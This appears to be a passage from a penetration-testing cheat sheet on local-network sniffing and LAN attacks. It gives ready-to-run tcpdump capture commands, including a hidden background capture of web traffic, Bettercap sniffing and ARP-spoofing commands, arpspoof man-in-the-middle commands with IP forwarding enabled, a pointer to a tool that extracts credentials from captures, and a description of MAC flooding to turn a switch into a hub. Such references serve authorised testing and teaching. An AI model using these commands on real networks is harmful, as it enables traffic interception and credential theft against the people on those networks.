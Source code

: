 If a switched Ethernet network is configured properly, you will only see broadcast frames and material destined for your MAC address.

## TCPDump

sudo tcpdump -i <INTERFACE> udp port 53 #Listen to DNS request to discover what is searching the host
tcpdump -i <IFACE> icmp #Listen to icmp packets
sudo bash -c "sudo nohup tcpdump -i eth0 -G 300 -w \"/tmp/dump-%m-%d-%H-%M-%S-%s.pcap\" -W 50 'tcp and (port 80 or port 443)' &"

## Bettercap2

net.sniff on
net.sniff stats
net.sniff.output #Output file
net.sniff.local #Accept packets from this machine
net.sniff.filter
net.sniff.regexp

##Wireshark

Obviously.
Capturing credentials

You can us tools like https://github.com/lgandx/PCredz to parse credentials from a pcap or a live interface.
LAN attacks
ARP spoofing

ARP Spoofing consist on sending gratuitous ARPResponses to indicate that the IP of a machine has the MAC of our device. Then, the victim will change the ARP table and will contact our machine every time it wants to contact the IP spoofed.

## Bettercap2

arp.spoof on
arp.ban on # No ipv4-redirect
arp.spoof.targets
arp.spoof.whitelist
arp.spoof.internal #Spoofed local connections (by default only Victim <--> Gateway

## Arpspoof

echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1

## MAC Flooding - CAM overflow

Overflow the switch’s CAM table sending a lot of packets with different source mac address. When the CAM table is full the switch start behaving like a hub (broadcasting all the traffic).
